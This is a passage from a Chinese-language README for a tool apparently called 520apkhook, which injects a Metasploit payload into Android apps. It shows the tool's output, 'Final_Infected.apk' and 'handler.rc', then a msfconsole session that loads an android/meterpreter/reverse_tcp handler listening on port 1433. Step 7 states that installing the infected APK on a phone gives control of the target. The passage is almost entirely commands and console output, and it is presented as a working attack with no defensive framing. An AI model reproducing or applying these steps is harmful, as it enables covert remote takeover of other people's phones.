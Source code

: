    

5. 在生成apk文件后, 目录下会产生`Final_Infected.apk`和`handler.rc`

   ```sh
   ➜  520apkhook ls
   Final_Infected.apk base.apk           hook.py            libs
   Readme.md          handler.rc         images
   ```

   

6. 使用msfconsole加载handler.rc进行服务端监听

   ```sh
   ➜  520apkhook msfconsole -r handler.rc
   # cowsay++
    ____________
   < metasploit >
    ------------
          \   ,__,
           \  (oo)____
              (__)    )\
                 ||--|| *
   
   
          =[ metasploit v6.0.42-dev-b177452c898ad956be8540a40c805bf52310c234]
   + -- --=[ 2124 exploits - 1137 auxiliary - 361 post       ]
   + -- --=[ 592 payloads - 45 encoders - 10 nops            ]
   + -- --=[ 8 evasion                                       ]
   
   Metasploit tip: After running db_nmap, be sure to
   check out the result of hosts and services
   
   [*] Processing handler.rc for ERB directives.
   resource (handler.rc)> use exploit/multi/handler
   [*] Using configured payload generic/shell_reverse_tcp
   resource (handler.rc)> set payload android/meterpreter/reverse_tcp
   payload => android/meterpreter/reverse_tcp
   resource (handler.rc)> set LHOST 0.0.0.0
   LHOST => 0.0.0.0
   resource (handler.rc)> set LPORT 1433
   LPORT => 1433
   resource (handler.rc)> set exitonsession false
   exitonsession => false
   resource (handler.rc)> exploit -j
   [*] Exploit running as background job 0.
   [*] Exploit completed, but no session was created.
   
   [*] Started reverse TCP handler on 0.0.0.0:1433
   msf6 exploit(multi/handler) >
   ......
   ```

7. 将生成的apk文件在安卓手机进行安装, 即可完成对目标的控制
